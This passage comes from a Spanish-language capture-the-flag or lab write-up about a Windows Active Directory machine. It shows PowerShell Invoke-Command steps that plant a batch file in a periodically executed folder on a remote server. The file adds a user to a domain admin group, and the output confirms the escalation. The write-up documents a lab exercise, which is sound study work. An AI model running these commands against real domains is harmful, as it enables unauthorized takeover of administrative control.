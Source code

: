 Se lo podemos preguntar a ChatGPT como he hecho en varias partes en este write-up.
```console
Invoke-Command -ComputerName atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock {Set-Content -Path 'C:\Program Files\keepmeon\pointed.bat' -Value 'net group "Site_Admin" awallace /add /domain'}
```

Ahora podemos comprobar que se ha creado.
```console
PS C:\uTILS> Invoke-Command -ComputerName atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock {ls "C:\Program Files\keepmeon\"} 
Invoke-Command -ComputerName atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock {ls "C:\Program Files\keepmeon\"}


    Directory: C:\Program Files\keepmeon


Mode                 LastWriteTime         Length Name                               PSComputerName                    
----                 -------------         ------ ----                               --------------                    
-a----        21/12/2021     14:57            128 keepmeon.bat                       atsserver                         
-a----        06/09/2024     21:45             59 pointed.bat                        atsserver                         


```

Podemos comprobar el contenido.
```console
PS C:\uTILS> Invoke-Command -ComputerName atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock {type "C:\Program Files\keepmeon\p
ointed.bat"}
Invoke-Command -ComputerName atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock {type "C:\Program Files\keepmeon\pointed.bat"}
net group "Site_Admin" awallace /add /domain
```

Después de esperar 5 minutos podemos revisar los grupos de `awallace` y vemos que ahora pertenece a `Site_Admin` y a `Domain Admins`

```console
PS C:\uTILS> Invoke-Command -ComputerName atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock {whoami /groups}
Invoke-Command -ComputerName atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock {whoami /groups}

GROUP INFORMATION
-----------------

Group Name                                   Type             SID                                            Attributes                                                     
============================================ ================ ============================================== ===============================================================
Everyone                                     Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group             
BUILTIN\Users                                Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group             
BUILTIN\Pre-Windows 2000 Compatible Access   Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group             
BUILTIN\Certificate Service DCOM Access      Alias            S-1-5-32-574                                   Mandatory group, Enabled by default, Enabled group             
BUILTIN\Administrators                       Alias            S-1-5-32-544                                   Mandatory group, Enabled by default, Enabled group, Group owner
```